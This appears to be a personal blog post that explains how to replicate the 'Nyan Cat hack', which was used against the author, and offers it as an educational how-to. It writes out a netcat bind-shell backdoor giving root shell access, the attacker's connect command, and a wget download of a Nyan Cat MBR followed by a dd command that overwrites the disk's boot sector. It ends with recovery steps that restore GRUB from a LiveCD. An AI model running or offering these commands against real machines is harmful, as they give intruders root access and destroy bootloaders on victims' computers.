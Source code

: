 ```yaml
---
layout: post
title: Nyan Cat Hack - How To
---
```


A writeup of how the Nyan Cat hack works.

<center>
<img src="/assets/nyan.png" alt="nyan" width="100%" height="300px" />
</center>


After the <a href="/2012/10/01/nyan_story.html">Nyan Cat Hack</a>, I wanted to learn how it was executed to get a better idea of what happened so that I could protect myself. This post is a simple description of how to replicate the hack. This is divided into two parts, the backdoor and the bootloader. Disclaimer: this is meant for education only. Do not illegally hack into other machines.

## The Backdoor

CowCli, the malicious binary, had a simple set of NetCat commands embedded within it that allowed terminal access into the victim’s machine. When CowCli is run, it behaves as intended along with executing the following code on the victim’s computer: This code can be executed stand alone from the command line.

```
sudo rm /etc/alternatives/nc && sudo ln -s /bin/nc.traditional /etc/alternatives/nc
sudo nc -l -p 40 -e /bin/sh 
```

The first command here is replacing the default NetCat with nc.traditional. This command might be optional, though was necessary for me to replicate the attack. Note that on OpenBSD machines, nc.openbsd should be used in place of nc.traditional. The second command is the true backdoor. This tells the victim’s machine to listen for traffic on port 40 and return a shell to the first connection to that port. The returned shell will have privileges equal to that of the NetCat process, so executing the second command with sudo will return a root shell.

Once the above commands have been run on the victim’s machine, the attacker can execute this bit of code:

`nc {victim's local IP address} 40`

This will simply connect to the port that the previous NetCat commands opened. Once executed, you will be able to use the connection as an interactive shell into the victim’s computer. This most likely will only work over a local network. To perform this attack on a remote user, that user’s router would need to be reconfigured so that port 40 traffic is directed to the target machine.

## The Bootloader

Once you have root access to a remote computer, you can do anything you want with it. My attacker chose to overwrite my bootloader with his own bootloader code. The bootloader is a small piece of code that the BIOS executes to boot into an operating system. I recommend that if you wish to replicate this attack, to do so in a virtual machine. This attack uses the dd command, and a mistake here can result in lost data or lock you out of your machine.

To overwrite the bootloader of the victim’s machine with Nyan Cat, follow these steps from the victims machine.

```
wget https://minemu.org/nyanmbr/nyan.mbr
dd if=nyan.mbr of=/dev/sda
```

The first command here is retrieving the Nyan Cat bootloader. The second command is overwriting the first sector of the primary device. The first sector is where the BIOS looks to load an operating system. This command is essentially saying to replace the first X bits of the hard disk with nyan.mbr, where X is the length of nyan.mbr in bits. if=input file, of=output file.

Now, give the machine a restart and check out how it behaves!!

To recover the bootloader, continue on. The first thing we need to do is boot from a LiveCD. For Ubuntu, this is as simple as popping in the disk or .iso file used to install the machine. Reboot the victim’s machine, press the key to open the BIOS menu, and find the option that lets you boot from the CD rom drive. You can either boot into the operating system directly off the CD or sometimes there’s an option to load up a terminal without booting all the way into the OS. Either way, get to a terminal window and follow the rest of the instructions. I learned the next steps here.

```
mkdir /mnt/myroot
sudo mount /dev/sda1 /mnt/myroot
sudo mount --bind /dev /mnt/myroot/dev
sudo mount --bind /proc /mnt/myroot/proc
sudo mount --bind  /sys /mnt/myroot/sys
sudo chroot /mnt/myroot
sudo grub-install /dev/sda
```

These steps are recreating a clean root in your machine. Steps 3,4,5 are copying the LiveCD’s dev, proc, and sys data into a new root. The chroot command locks the user into /mnt/myroot, such that from the user’s perspective /mnt/myroot becomes the root of the file system. Finally, grub-install replaces the nyan bootloader with the grub bootloader, the stock Ubuntu bootloader. After executing these commands, issue another restart on the machine and make sure you boot from disk (instead of the LiveCD again). If performed correctly, this should boot you back into your operating system, with all your data in tact.

Happy hacking!


